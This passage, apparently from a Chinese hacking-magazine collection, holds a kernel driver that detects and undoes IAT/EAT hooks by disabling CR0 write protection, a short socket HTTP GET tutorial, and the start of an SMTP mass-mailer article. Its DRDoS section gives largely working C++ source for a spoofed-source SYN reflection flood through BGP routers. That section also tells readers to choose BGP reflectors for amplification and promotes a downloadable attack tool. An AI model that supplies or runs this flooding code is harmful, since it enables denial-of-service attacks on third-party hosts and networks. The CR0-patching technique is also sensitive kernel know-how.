        if(strcmp(&(SmiPtr[Idx])->ImageName + (&SmiPtr[Idx])->ModuleNameOffset, "rvrie.sys") != 0){
            // 循环恢复每一个模块
            Rvr(&SmiPtr[Idx], FALSE);
        }
    }
}
FreePool(Ptr);
```

我们的主核心函数是 `Rvr(SYSTEM_MODULE_INFORMATION* SmiPtr, BOOLEAN FirstTurn)`。它搜索模块内存中的 IAT 和 EAT 数据，同时读取模块文件中的数据进行比对，如果不同就对其进行恢复。这个函数代码比较长，我们对其分段进行分析，首先是恢复 IAT 的代码。

```c
// 获取内存中的IAT位置
FirstThunk = GetDirectoryAddr(RvrFile->Base,
IMAGE_DIRECTORY_ENTRY_IAT,&ImpFuncAddrItemSize,
&DeltaIAT, FALSE);
// 获取文件中的 IMP table 位置
ImportDesc = GetDirectoryAddr(RvrFile->FileData,
IMAGE_DIRECTORY_ENTRY_IMPORT,&ImpTableSize,
&DeltaIMP, TRUE);
if(!FirstThunk || !ImportDesc) return;
// 数据必须是4字节对齐
if(ImpFuncAddrItemSize % 4) {
  DbgPrint("Invalid ImpFuncAddrItemSize, exit\n");
  return;
}
```

```c
*Delta = (INT)(Header->VirtualAddress - Header->PointerToRawData);
}else{
  *Delta = 0;
}
// 获取表的位置
pDirAddr = MakePtr(PVOID, pDosHeader, pNTHeader->OptionalHeader.
  DataDirectory[DirectoryIdx].
  VirtualAddress - *Delta);
if (pDirAddr == (VOID*)pNTHeader)
  return NULL; // 获取数据长度
if(pSize){
  *pSize = MakePtr(ULONG, pDosHeader,
    pNTHeader->OptionalHeader.
    DataDirectory[DirectoryIdx].
    Size);
  if(pSize) // equal 0 ?
    *pSize -= (ULONG)pDosHeader;
}
return pDirAddr;
}
```

在文件还没有被读入内存时，IAT 中的数据还不是函数地址，它是一个指向和 IMPORT 表相同的函数名称，所以我们只能读取 IMPORT 表来获得数据。文件和内存之间的数据位置可能有相差，所以我们同时要计算一下相差值 `DeltaIMP`。

我们再来看一下 `GetDirectoryAddr` 函数是如何定位到各个表的位置的，实现代码如下：

在获取了表的位置后，我们就要开始比对了。内存 IAT 表中包含了一连串模块的导入函数地址，如表1所示；而文件 IMPORT 表中包含了一连串模块导入函数名称，如表2所示。看出它们的区别了吗？它们的顺序并不一样，我们需要重新排列一下 Import 表的模块，使之和 IAT 表中一样。因为数量比较少，所以冒泡（bubble）排序最适合。我们来看一下实现代码。

```c
VOID * GetDirectoryAddr(UCHAR *Base, USHORT
DirectoryIdx, ULONG * pSize, INT * Delta, BOOLEAN IsFile)
{
  PIMAGE_DOS_HEADER pDosHeader;
  PIMAGE_NT_HEADERS pNTHeader;
  VOID *pDirAddr;
  PIMAGE_SECTION_HEADER Header;
  pDosHeader = (PIMAGE_DOS_HEADER)Base;
  if (!MmIsAddressValid(pDosHeader)) return NULL;
  if (pDosHeader->e_magic != IMAGE_DOS_SIGNATURE) return NULL;
  pNTHeader = MakePtr(PIMAGE_NT_HEADERS,
    pDosHeader, pDosHeader->e_lfanew);
  if (!MmIsAddressValid(pNTHeader)) return NULL;
  if (pNTHeader->Signature != IMAGE_NT_SIGNATURE) return NULL;
  if(IsFile){
    Header = GetEnclosingSectionHeader(
      pNTHeader->OptionalHeader.
      DataDirectory[DirectoryIdx].
      VirtualAddress, pNTHeader );
    if(Header == NULL) return NULL;
    // 计算RVA值...
  }
}
```

#### 表1

| 模块 | 值 |
|---|---|
| Hal.dll | 806012313 |
|  | 806102424 |
|  | 806100232 |
| 结束标志 | 0 |
| Ntoskrnl.exe | 804012313 |
|  | 804102424 |
|  | 804100232 |
| Tcpip.sys | F9000020 |
| 结束标志 | 0 |

#### 表2

| 模块 | 导入函数 |
|---|---|
| Ntoskrnl.exe | NtOpenProcess |
|  | NtTerminateProcess |
|  | ZwClose |
| Hal.dll | READ_PORT_BUFFER_UCHAR |
|  | READ_REGISTER_BUFFER_UCHAR |
|  | READ_REGISTER_UCHAR |
| Tcpip.sys | IPAllocBuf |

```c
// 获取文件中的各个模块的位置作为排序依据
while(ImportDesc->Name){
  ImportDescAry[ImpDescIdx] = ImportDesc;
  SortOdrAry[ImpDescIdx] = (ULONG)MakePtr(
    PIMAGE_THUNK_DATA,RvrFile->FileData,ImportDesc->...
  );
}
```

#### IAT 恢复代码

```cpp
FirstThunk -= DeltaIMP;
ImpDescIdx++;
ImportDesc++;
// 如果没有导入模块，直接去处理 EAT
if (ImpDescIdx == 0) goto DO_RVR_EAT;

// 排序
if (ImpDescIdx != 1) {
    j = ImpDescIdx; // bubble sort
    while (TRUE) {
        for (i = 1; i < j; ++i) {
            if (SortOdrAry[i] < SortOdrAry[i - 1]) {
                ImportDesc = ImportDescAry[i - 1];
                ImportDescAry[i - 1] = ImportDescAry[i];
                ImportDescAry[i] = ImportDesc;

                tmp = SortOdrAry[i - 1];
                SortOdrAry[i - 1] = SortOdrAry[i];
                SortOdrAry[i] = tmp;
            }
        }
        if (i == 1) break;
    }
}
```

排序好之后，我们就可以进行比对了。

```cpp
// 获取模块名，用于读入模块文件读取 EAT
ModuleName = MakePtr(PSTR, RvrFile->FileData, ImportDesc->Name - DeltaIMP);
// 获取函数名位置指针
OriFirstThunk = MakePtr(PIMAGE_THUNK_DATA, RvrFile->FileData,
    ImportDesc->OriginalFirstThunk - DeltaIMP);

// 循环遍历每一个函数地址
while (OriFirstThunk && ModuleName && ImpFuncAddrItemSize && FirstThunk->u1.Function) {
    // 获取函数名
    OrdinalName = MakePtr(PIMAGE_IMPORT_BY_NAME,
        RvrFile->FileData,
        (ULONG)OriFirstThunk->u1.AddressOfData - DeltaIMP);

    // 从模块文件中获取准确的函数地址
    if (GetAddrOfExportFuncAddr(ModFile->FileData, OrdinalName->Name,
        &ExportFunctionAddr, TRUE)) {
    } else {
        DbgPrint("We can not get %s export address\n", OrdinalName->Name);
    }

    if ((ULONG)FirstThunk->u1.Function != ExportFunctionAddr + (ULONG)ModFile->Base) {
        CHAR *Forwarder;
        // 判断是否转移函数，输出信息
        FileExpDesc = GetDirectoryAddr(ModFile->FileData,
            IMAGE_DIRECTORY_ENTRY_EXPORT, &FileExpTableSize,
            &FileDeltaExp, TRUE);
        Forwarder = ModFile->FileData + ExportFunctionAddr - FileDeltaExp;
        if (Forwarder >= (CHAR*)FileExpDesc && Forwarder <= ((CHAR*)FileExpDesc + FileExpTableSize)) {
            DbgPrint("%s\n", Forwarder);
        } else {
            // 如果不是转移函数，则可能被 hook，显示 hook 地址
            HookFile = FindFileDataInListWithAddress((CHAR*)FirstThunk->u1.Function);
            if (HookFile) {
                DbgPrint("IAT Hook %s: %x -> %x -> %s",
                    OrdinalName->Name,
                    ExportFunctionAddr + (ULONG)ModFile->Base,
                    (ULONG)FirstThunk->u1.Function, HookFile->ModName);
            } else {
                DbgPrint("IAT Hook %s: %x -> %x -> UnKnown Module",
                    OrdinalName->Name,
                    ExportFunctionAddr + (ULONG)ModFile->Base,
                    (ULONG)FirstThunk->u1.Function);
            }

            {
                HookedAddress = (ULONG)&FirstThunk->u1.Function;
                RvrAddress = ExportFunctionAddr + (ULONG)ModFile->Base;

                // 这里修改 CR0 写保护位并交换地址
                KeRaiseIrql(2, &OldIrql);
                _asm {
                    push eax
                    mov eax, cr0
                    and eax, 0xFFFEFFFF
                    mov cr0, eax
                    pop eax
                }

                INTERLOCKED_EXCHANGE(HookedAddress, RvrAddress);

                _asm {
                    push eax
                    mov eax, cr0
                    or  eax, 0x10000
                    mov cr0, eax
                    pop eax
                }

                KeLowerIrql(OldIrql);
            }
        }
    }

    // 更新到下一个函数地址和函数名地址
    FirstThunk++;
    ImpFuncAddrItemSize -= sizeof(ULONG);
    OriFirstThunk++;
    if (ImpFuncAddrItemSize == 0) break;
    if (FirstThunk->u1.Function == 0) {
        // 更新到下一个模块
        FirstThunk++;
        ImpFuncAddrItemSize -= sizeof(ULONG);
        ImportDesc = ImportDescAry[ImpDescIdx];
        if (ImpDescIdx == ImpDescNum) break;
        ++ImpDescIdx;
        ModuleName = MakePtr(PSTR, RvrFile->FileData, ImportDesc->Name - DeltaIMP);
        OriFirstThunk = MakePtr(PIMAGE_THUNK_DATA, RvrFile->FileData,
            ImportDesc->OriginalFirstThunk - DeltaIMP);
    }

    if (OriFirstThunk == NULL ||
        ModuleName == NULL ||
        FirstThunk->u1.Function == NULL ||
        ImpFuncAddrItemSize == 0) break;

    DbgPrint("Import Module ---- %s\n", ModuleName);
    // 读取下一个模块的文件数据...
    ModFile = FindFileDataInListWithModName(ModuleName);
    if (ModFile == NULL) {
        ModFile = CreateFileData(NULL, ModuleName);
        if (ModFile == NULL) {
            DbgPrint("We can not get module %s information \n", ModuleName);
            return;
        }
    }
    if (ModFile->FileData == NULL) {
        DbgPrint("We can not open module file %s\n", ModFile->FileName);
        return;
    }
}
```

代码已经注释得比较详细了，我就不再解释了。至此，IAT 恢复就结束了，我们继续 EAT 恢复。看了上面 `GetAddrOfExportFuncAddr` 函数的代码后，大家应该知道 EAT 恢复的思路了吧？首先获取内存中的 EAT 表，再获取文件中的 EAT 表，然后进行比对，我们来看一下代码实现。

上面的程序代码还是比较清晰的：在获得函数名和模块名后，读入模块文件数据，从模块文件数据的 EAT（输出函数表）中获取该函数的偏移值，然后将其值加上模块在内存中的起始地址，再将这个值同内存 IAT 表中的函数地址进行比较。如果不相等的话，就只有两种可能：一种是文件中读到的这个偏移值指向一个转移函数的模块名（如 `ntoskrnl.RtlMoveMemory`）；另一种可能就是被 hook 了。我们就列出被 hook 的函数，再将其地址恢复。我们来看一看 `GetAddrOfExportFuncAddr` 函数的代码，看看如何从文件中获取 EAT 表中的函数偏移值。

```cpp
BOOLEAN GetAddrOfExportFuncAddr(
    UCHAR* Base,
    CHAR* FunctionName,
    ULONG* AddrOfExportFuncAddr,
    BOOLEAN IsFile)
{
    PIMAGE_EXPORT_DIRECTORY pExportDesc;
    ULONG *pFuncName, *pFuncAddr;
    ULONG i, j;
    INT Delta;
    PSHORT pOrdinal;

    // 获取 EAT 表的位置
    pExportDesc = (PIMAGE_EXPORT_DIRECTORY)
        GetDirectoryAddr(Base, IMAGE_DIRECTORY_ENTRY_EXPORT, NULL, &Delta, IsFile);
    if (!pExportDesc) return FALSE;

    // 获取 EAT 表的 3 个变量的 RVA 值
    pFuncName = MakePtr(PULONG, Base, pExportDesc->AddressOfNames - Delta);
    pFuncAddr = MakePtr(PULONG, Base, pExportDesc->AddressOfFunctions - Delta);
    pOrdinal = MakePtr(PSHORT, Base, pExportDesc->AddressOfNameOrdinals - Delta);

    // 循环寻找相同函数名，找到后在相同位置获取函数地址的编号 Ordinal
    for (i = 0; i < pExportDesc->NumberOfNames; i++, pFuncName++) {
        if (_stricmp(FunctionName, (CHAR*)Base + *pFuncName - Delta) == 0) {
            *AddrOfExportFuncAddr = *(pFuncAddr + pOrdinal[i]);
            return TRUE;
        }
    }
    return FALSE;
}
```

#### EAT 恢复代码

```cpp
DO_RVR_EAT:
// 获取内存中和文件中的 EAT 表的位置
ModExpDesc = GetDirectoryAddr(RvrFile->Base, IMAGE_DIRECTORY_ENTRY_EXPORT, &ModExpTableSize, &ModDeltaExp, FALSE);
FileExpDesc = GetDirectoryAddr(RvrFile->FileData, IMAGE_DIRECTORY_ENTRY_EXPORT, &FileExpTableSize, &FileDeltaExp, TRUE);

// 如果文件中不存在 EAT 表则返回
if (!FileExpDesc || FileExpTableSize == 0) {
    DbgPrint("No Export Table existing\n");
    return;
}

// 如果文件中存在 EAT 表，而内存中不存在，则可能内存中数据已经被破坏
if (!ModExpDesc || ModExpTableSize == 0 || FileExpDesc->AddressOfFunctions != ModExpDesc->AddressOfFunctions) {
    DbgPrint("%s export table is corrupt\n", RvrFile->ModName);
    return;
}

// 获取内存中和文件中的函数地址表位置
FileExpFuncAddr = MakePtr(PULONG, RvrFile->FileData, FileExpDesc->AddressOfFunctions - FileDeltaExp);
ModExpFuncAddr  = MakePtr(PULONG, RvrFile->Base, ModExpDesc->AddressOfFunctions - ModDeltaExp);
FileExpFuncName = MakePtr(PULONG, RvrFile->FileData, FileExpDesc->AddressOfNames - FileDeltaExp);
FileOrdinal = MakePtr(PSHORT, RvrFile->FileData, FileExpDesc->AddressOfNameOrdinals - FileDeltaExp);

// 循环遍历函数地址
for (j = 0; j < FileExpDesc->NumberOfFunctions; ++j, ++ModExpFuncAddr, ++FileExpFuncAddr) {
    // 对函数地址进行比较，如果不同则只有一种可能：被 hook 了，不像 IAT 有两种可能
    if ((*FileExpFuncAddr) != (*ModExpFuncAddr)) {
        ExpFuncName = NULL;
        for (i = 0; i < FileExpDesc->NumberOfNames; ++i) {
            if (j == FileOrdinal[i]) {
                ExpFuncName = RvrFile->FileData + *(FileExpFuncName + i) - FileDeltaExp;
                break;
            }
        }
        if (ExpFuncName == NULL) {
            DbgPrint("We can not find function name\n");
        }

        HookFile = FindFileDataInListWithAddress((CHAR*)*ModExpFuncAddr + (ULONG)RvrFile->Base);

        // 列出 hook 函数
        if (HookFile) {
            DbgPrint("EAT Hook %s: %x -> %x -> %s",
                ExpFuncName ? ExpFuncName : "UnKnown Function Name",
                *FileExpFuncAddr + (ULONG)RvrFile->Base,
                *ModExpFuncAddr + (ULONG)RvrFile->Base,
                HookFile->ModName);
        } else {
            DbgPrint("EAT Hook %s: %x -> %x -> UnKnown Module",
                ExpFuncName ? ExpFuncName : "UnKnown Function Name",
                *FileExpFuncAddr + (ULONG)RvrFile->Base,
                *ModExpFuncAddr + (ULONG)RvrFile->Base);
        }

        // 恢复 EAT 函数地址
        {
            HookedAddress = (ULONG)ModExpFuncAddr;
            RvrAddress = *FileExpFuncAddr;
            KeRaiseIrql(2, &OldIrql);
            _asm {
                push eax
                mov eax, cr0
                and eax, 0xFFFEFFFF
                mov cr0, eax
                pop eax
            }
            INTERLOCKED_EXCHANGE(HookedAddress, RvrAddress);
            _asm {
                push eax
                mov eax, cr0
                or eax, 0x10000
                mov cr0, eax
                pop eax
            }
            KeLowerIrql(OldIrql);
        }
    }
}
```

这样，EAT 恢复就算完成了。现在我们来测试一下，看看效果。下面是我们的驱动 `rvrie.sys` 在 DbgView 中的显示结果。

```
// 我们自己的驱动首先给检查，被 HOOK 了 IoCreateDevice
rvrie.sys: IAT Size: 50 IMP Size: 3c
Import Module Number: 2
Import Module -- HAL.dll
Import Module -- ntoskrnl.exe
IAT Hook IoCreateDevice: 805699e0 -> 81578bb0 -> UnKnown Module
0000012 : 0.17285493 No Export Table existing
ntkrnlpa.exe: IAT Size: 154 IMP Size: 50
IAT Hook IoCreateDevice: 805699e0 -> 81578bb0 -> UnKnown Module
TDI.SYS: IAT Size: e4 IMP Size: 50
EAT Hook TdiRegisterDeviceObject: f9c2e53a -> 81578c60 -> UnKnown Module

// 所有 NDIS 相关的模块都被 hook 了 TdiRegisterDeviceObject 函数
tcpip.sys: IAT Size: 354 IMP Size: 64
IAT Hook IoCreateDevice: 805699e0 -> 81578bb0 -> UnKnown Module
IAT Hook TdiRegisterDeviceObject: f9c2e53a -> 81578c60 -> UnKnown Module
netbt.sys: IAT Size: 26c IMP Size: 50
IAT Hook IoCreateDevice: 805699e0 -> 81578bb0 -> UnKnown Module
IAT Hook TdiRegisterDeviceObject: f9c2e53a -> 81578c60 -> UnKnown Module
afd.sys: IAT Size: 264 IMP Size: 50
IAT Hook IoCreateDevice: 805699e0 -> 81578bb0 -> UnKnown Module
netbios.sys: IAT Size: 104 IMP Size: 50
IAT Hook IoCreateDevice: 805699e0 -> 81578bb0 -> UnKnown Module

// 接下来多数被 hook IoCreateDevice 和 TdiRegisterDeviceObject 的模块
CLASSPNP.SYS: IAT Size: 180 IMP Size: 3c Import Module Number: 2
Import Module -- ntoskrnl.exe
IAT Hook IofCompleteRequest: 804ede90 -> f73b8f76 -> gmer.sys
Import Module -- HAL.dll
```

从驱动的显示数据中可以看出，有一个驱动在内存 `81578bb0`、`81578c60` 处写入了 hook 函数代码，并且 hook 了 `ntkrnlpa` 模块 EAT 表中的 `IoCreateDevice` 函数和 `tdi.sys` 模块 EAT 表中的 `TdiRegisterDeviceObject` 函数。而且这个驱动启动得比较早，造成了很多模块的 IAT 表中导入了 hook 的函数地址，这其中也包括了我们自己的 `rvrie.sys` 驱动模块。也就是说，我们的驱动之前调用了被 hook 的 `IoCreateDevice` 函数，这应该是卡巴斯基 hook 的吧？另一处比较显眼的就是 `gmer` 这个 Antirootkit 软件 hook 了 `classpnp.sys` 模块 IAT 表中的 `IofCompleteRequest` 函数，这样所有发向磁盘的 IRP 完成数据都将被 gmer 先监控到。但是，现在有了我们上面的程序，当再次启动我们的 `rvrie.sys` 驱动后，就会发现 IAT 和 EAT hook 都已经恢复正常了。

> 【本文涉及的代码（程序），请见随书光盘】

## 网络协议类

### 套接字编程实现网页内容的获取

文/图 楚茗[S.U.S]

在《黑客防线》杂志2006年第4期《FTP动态更新解决内网IP问题》一文中，我介绍了如何通过编程上传IP信息到Web空间的方法，本文则继续介绍如何通过套接字编程读取这个文件中的IP信息。另外，在同年第9期《POST提交实现ASP网站收信》一文中，我介绍了HTTP协议相关知识与如何用套接字从底层实现POST请求。而在本文中，我们读取网页内容则使用HTTP请求消息中另一种常见方式——GET方法。

可能会有读者问，为什么不用URLDownloadToFile呢？那样不是很简单？正如那篇文章中所述，本文的主要目的还是在于介绍点HTTP协议相关知识和提高大家的网络编程能力。

首先架设好我们的试验环境。我们在本地建个Web服务器，在根目录中新建一个ip.jpg文件，其内容为“192.168.1.101:8080”。显然，我们要请求的文件为http://127.0.0.1/ip.jpg，内容为“192.168.1.101:8080”。

接下来了解一下原理。首先，我们该如何区分POST和GET方法呢？我们可以简单地理解为GET是从服务器上获取数据，POST是向服务器传送数据。其次，使用GET方法下载文件的基本过程是：连接主机、发送请求头、接收并分析响应头、接收文件数据。典型的GET方法的HTTP请求头和Web服务器的响应头如图1所示。


请求头中第1行指明了GET方法、请求的文件以及使用的HTTP协议版本。第3行描述了接收的数据类型，“*/*”表示接收所有的数据类型，第5行将连接设置为一直保持连接。最后要加上一个空行，表示请求头结束。响应头中第2行表示Web服务器类型，第7行Content-Length指示了请求文件的大小。

下面我们就用C语言来实现这个程序，也帮助大家进一步熟悉Socket编程流程，具体的代码实现如下所示。

```c
/* 初始化Socket版本 */
WSADATA wsa;
WSAStartup(MAKEWORD(2,2), &wsa);

/* 远程主机信息 */
struct sockaddr_in sin;
sin.sin_family = AF_INET;
sin.sin_port = htons(80);
sin.sin_addr.S_un.S_addr = inet_addr("127.0.0.1");

/* 创建TCP socket */
SOCKET sClient = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);

/* 连接到服务器 */
connect(sClient, (sockaddr*)&sin, sizeof(sin));

/* 发送HTTP消息头 */
char request[] =
"GET /ip.jpg HTTP/1.0\r\n"
"host:127.0.0.1\r\n"
"accept:*/*\r\n\r\n";
send(sClient, request, strlen(request), 0);

/* 处理回应头 */
char rec[256];
while (recvline(sClient, rec)) {
    if (strlen(rec) <= 0) break;
}

/* 获取文件内容 */
char* data = new char[256];
memset(data, 0, 256);
recv(sClient, data, 256, 0);
closesocket(sClient);
WSACleanup();

/* 打印数据 */
printf("%s\r\n", data);
```

上面我提供的代码仅做演示，所以没做任何的出错处理函数。代码中的recvline()函数用来读取一行回应头，具体可参考本文所附的源代码。正确编译后，我们就可以读取ip.jpg中的数据了，如图2所示。


最后，我希望本文能对大家解决IP更新和理解HTTP协议以及提高网络编程能力有所帮助。

【本文涉及的代码（程序），请见随书光盘！】

#### 编程实现

### DRDoS攻击


文/Swords

DRDoS是英文“Distributed Reflection Denial of Service Attack”的缩写，意思是“分布式反射拒绝服务攻击”。DRDoS方式靠的是发送带有被害者IP地址的SYN连接请求包发给攻击主机BGP。根据TCP三次握手的规则，这些计算机会向源IP（被害者）发出SYN+ACK包来响应这个请求，造成该主机忙于处理这些回应而被拒绝服务攻击。

当被害者被多个网络核心基础设施路由器攻击，所有的连接都是完全合法的SYN/ACK连接回应包，它们显示了一个TCP源端口：179。BGP是中介路由器支持的“边界网关协议”（Border Gateway Protocol），路由器使用BGP与它们的邻居进行即时信息交换来更新路由表……从而利用BGP的特性实现反射放大洪水攻击。

DRDoS与DDoS的不同之处是不需要在实际攻击之前占领大量傀儡机，发动DRDoS只需花费攻击者很少的资源。这种攻击也是在伪造数据包源地址的情况下进行的……其名称中的“R”意为反射，这是这种攻击行为最大的特点。

xfocus.net下载，我随本文也提供了完整源代码。下面我主要根据代码来讲解一下DRDoS的实现原理，为了层次清楚，我删去了ICMP攻击部分，大家可以参考源代码。

- 1）首先是初始化要发送的SYN数据报首部，这样攻击线程可以只需要修改少许参数，就能达到加快攻击速度的目的，具体实现代码如下所示。

#### 代码实现

为了分析DRDoS，我专门写了一个强大的综合利用工具Smartkiq，实现了以下几个功能：多线程端口扫描、多线程DDoS攻击、多线程DRDoS攻击、ICMP洪水、SYN洪水、自动更新。这款工具已经开放了源代码，大家可以到www.dream2fly.net和www.xfocus.net下载。

```cpp
void CDrdos::InitSynPacket()
{
    // 填充 IP 首部
    memset((void *)&ipheader,0,sizeof(ipheader));
    ipheader.h_verlen=(4<<4 | sizeof(IP_HEADER)/sizeof(unsigned long));
    ipheader.tos=0;
    ipheader.total_len=htons(sizeof(IP_HEADER)+sizeof(TCP_HEADER));
    ipheader.ident=1;
    ipheader.frag_and_flags=0x40;
    ipheader.ttl=255;
    ipheader.proto=IPPROTO_TCP;
    ipheader.checksum=0;
    ipheader.sourceIP=inet_addr(m_target_ip);
    ipheader.destIP=inet_addr(m_target_ip);

    // 填充 TCP 首部
    memset((void *)&tcpheader,0,sizeof(tcpheader));
    tcpheader.th_dport=htons(m_target_port);
    tcpheader.th_sport=htons(m_target_port);
    tcpheader.th_seq=htonl(rand());
    tcpheader.th_ack=0;
    tcpheader.th_lenres=(sizeof(TCP_HEADER)/4<<4|0);
    tcpheader.th_flag=2;   // SYN
    tcpheader.th_win=htons(512);
    tcpheader.th_urp=0;
    tcpheader.th_sum=0;

    // 填充 TCP 伪首部
    memset((void *)&psdheader,0,sizeof(psdheader));
    psdheader.saddr=ipheader.sourceIP;
    psdheader.daddr=ipheader.destIP;
    psdheader.mbz=0;
    psdheader.ptcl=IPPROTO_TCP;
    psdheader.tcpl=htons(sizeof(TCP_HEADER));
}
```

- 2）在开始攻击函数`start_drdos`中启动一个`drdosthread`攻击线程：`AfxBeginThread(drdosthread, NULL)`，实现UI层和业务层面的分离，从而提高UI反应速度。

```cpp
void CDrdos::start_drdos(const vector<CString>& reflect_list)
{
    m_listCounter = 0;
    m_ncounter = 0;
    m_pDlg = (CsmartkidDlg*)AfxGetApp()->GetMainWnd();
    m_threadnum = m_pDlg->m_threadnum;
    strcpy(m_target_ip, m_pDlg->m_targetip.GetBuffer());
    m_target_port = m_pDlg->m_drdosport;
    m_reflectlist = reflect_list;   // 开始初始化数据包
    InitSynPacket();

    m_mainnum = m_reflectlist.size() / m_threadnum;
    if (m_reflectlist.size() % m_threadnum > 0)
    {
        m_mainnum++;
    }

    m_pDlg->m_prog->SetRange(0, m_reflectlist.size());
    m_pDlg->m_prog->SetSel(1);
    AfxBeginThread(drdosthread, NULL);
}
```

```cpp
// 内循环计数
nThreadCounter++;
m_pDlg->m_prog->StepIt();
wt[i] = AfxBeginThread(syn_drdosthread, &ip_port);
hThread[i] = wt[i]->m_hThread;
if (hThread[i] == NULL) { }

// 非常重要：因为当执行 if(m_ncounter > m_portnum-1) 时是中断的
// 此时 hThread[i] 无值；如果 i=0，则表示没有开启线程
if (i != 0)
{
    WaitForMultipleObjects(nThreadCounter, hThread, TRUE, 500);
}

m_pDlg->m_prog->SetPos(0);
return 0;
```

- 3）在新的攻击线程`drdosthread`中管理线程资源，分配攻击反射地址和端口，从而实现BGP路由的分布式反射攻击。

```cpp
UINT CDrdos::drdosthread(LPVOID param)
{
    CWinThread* wt[1024];
    HANDLE hThread[1024];
    u_short nThreadCounter;
    CString reflect_ip_port;
    IPPORT_T ip_port;
    char zombies_ip[16];   // 建立发送包线程

    while (1)
    {
        if (g_stop == true)
            break;

        for (int i = 0; i < m_mainnum; i++)
        {
            nThreadCounter = 0;
            int j;

            for (j = 0; j < m_threadnum; j++)
            {
                if (g_stop == true)
                    break;

                if (m_ncounter > m_reflectlist.size() - 1)
                    m_ncounter = 0;

                reflect_ip_port = m_reflectlist[m_ncounter];
                int index = reflect_ip_port.Find(":", 0);
                memset(zombies_ip, 0, sizeof(zombies_ip));
                memcpy(zombies_ip, reflect_ip_port.GetBuffer(), index);
                reflect_ip_port.ReleaseBuffer();

                ip_port.ip = inet_addr(zombies_ip);
                ip_port.port = htons(atoi(reflect_ip_port.Right(
                    reflect_ip_port.GetLength() - index - 1)));
            }
        }
    }
}
```

- 4）攻击主线程`syn_drdosthread`负责改变传入的BGP参数和同步控制功能，以及配置网络引起的发送或者接收延迟时间，填充发包缓冲区，利用`sendto`异步发送数据包，达到效率最大化。

```cpp
UINT CDrdos::syn_drdosthread(LPVOID param)
{
    m_Sync.Lock();
    m_ncounter++;
    m_Sync.Unlock();

    IPPORT_T* reflect_ip_port = (IPPORT_T*)param;

    sock = WSASocket(AF_INET, SOCK_RAW, IPPROTO_IP,
                     NULL, 0, WSA_FLAG_OVERLAPPED);
    if (sock == INVALID_SOCKET)
    {
        PrintError("WSASocket");
    }

    BOOL flag = true;
    int ret = setsockopt(sock, IPPROTO_IP, IP_HDRINCL,
                         (char*)&flag, sizeof(flag));
    if (ret == SOCKET_ERROR)
    {
        closesocket(sock);
        PrintError("setsockopt");
    }

    int nTimeOut = 2000;   // 2s
    ret = setsockopt(sock, SOL_SOCKET, SO_SNDTIMEO,
                     (char*)&nTimeOut, sizeof(nTimeOut));
    if (ret == SOCKET_ERROR)
    {
        closesocket(sock);
        PrintError("setsockopt");
    }

    ret = setsockopt(sock, SOL_SOCKET, SO_RCVTIMEO,
                     (char*)&nTimeOut, sizeof(nTimeOut));
    if (ret == SOCKET_ERROR)
    {
        closesocket(sock);
        PrintError("setsockopt");
    }

    u_long seq_num = MakeRand32(m_ncounter);
    ipheader.destIP = reflect_ip_port->ip;
    ipheader.ident = rand();
    ipheader.checksum = 0;
    tcpheader.th_dport = reflect_ip_port->port;
    tcpheader.th_seq = htonl(seq_num);
}
```

```c
tcpheader.th_sum = 0;
psdheader.daddr = ipheader.destIP;  // 计算校验和
char SendBuff[128]={0};
// 计算 TCP 校验和
memcpy(SendBuff, (void *)&psdheader, sizeof(PSD_HEADER));
memcpy(SendBuff+sizeof(PSD_HEADER), (void *)&tcpheader, sizeof(TCP_HEADER));
tcpheader.th_sum=checksum((u_short *)SendBuff,sizeof(PSD_HEADER)+sizeof(TCP_HEADER));
// 计算 IP 检验和
memcpy(SendBuff,(void *)&ipheader, sizeof(IP_HEADER));
memcpy(SendBuff+sizeof(IP_HEADER), (void *)&tcpheader, sizeof(TCP_HEADER));
memset(SendBuff+sizeof(IP_HEADER)+sizeof(TCP_HEADER),0,4);
ipheader.checksum=checksum((u_short *)SendBuff, sizeof(IP_HEADER));
memcpy(SendBuff,(void *)&ipheader, sizeof(IP_HEADER));
memset((void *)&syn_in,0,sizeof(syn_in));
syn_in.sin_family = AF_INET;
syn_in.sin_addr.s_addr = reflect_ip_port->ip;
syn_in.sin_port = reflect_ip_port->port;
// 发送数据包
ret=sendto(sock, SendBuff, sizeof(IP_HEADER)+sizeof(TCP_HEADER), 0, (struct sockaddr*)&syn_in, sizeof(syn_in));
if(ret==SOCKET_ERROR)
{
    closesocket(sock);
    PrintError("sendto");
}
// 关闭套接口
closesocket(sock);
return 0;
}
```

对于DRDoS攻击的防御，由于一般SYN/ACK这个数据包都应该从内网口收到，所以在受到攻击时，可以配置防火墙从外网口收到SYN/ACK包时直接丢掉就可以了。

### FAQ

- 1）软件开发者关心的问题

首先研究清楚原理再去实现功能，问题的难点在于：多线程的控制、缓冲区参数的填写、校验和问题和攻击速度问题。以上所有这些问题，在我写程序时都一一克服了，大家可以参见Smartkid的源代码。

- 2）兴趣爱好者和压力攻击测试者关心的问题

根据Smartkid反馈渠道得到的汇总，用户最关心的在于反射源的选取问题，大家可记住一个基本原则，就是选取的这个反射源必须为BGP路由，否则DRDoS会退化为DDoS，导致没有反射放大效果。

> 【本文涉及的代码（程序），请见随书光盘】

## 邮件群发器的分析与实现

文/图 Swords

在对邮件群发器进行分析之前，我们先来介绍一下涉及邮件传输的相关术语。

SMTP（Simple Mail Transfer Protocol），即简单邮件传输协议，它是一组用于由源地址到目的地址传送邮件的规则，由它来控制信件的中转方式。SMTP协议属于TCP/IP协议族，帮助每台计算机在发送或中转信件时找到下一个目的地。

MTA（Message Transport Agent），即传送代理。每一台Internet计算机在运行邮件程序时，可自动地确保邮件以标准格式选址和传送，这个程序称为传送代理MTA，它按照SMTP协议解释邮件的格式和说明处理投递的邮件。

ESMTP（Extended SMTP），即扩展SMTP，它是对标准SMTP协议进行的扩展。与SMTP服务的区别仅仅是使用SMTP发信不需要验证用户账户，而用ESMTP发信时，服务器会要求用户提供用户名和密码以便验证身份，验证之后的邮件发送过程与SMTP方式没有任何区别。

#### 流程分析

- 1）电子邮件的构成：信封、首部和正文。信封是MTA用来交付的，用到的SMTP命令为：


MAIL FROM: \<sender@gmail.com\>

该行表明发信人的地址。

RCPT TO: \<receiver@gmail.com\>

该行表明收信人的地址。

首部由关键字、冒号及关键信息组成，典型首部如下。

> Date:  
> From: a@b.c.d  
> To: abc@gmail.com; 123@456.789  
> Subject: test for sendmail  
> CC: aa@bb.cc.dd  
> BCC: 1@2.3.4  
> Reply-To:

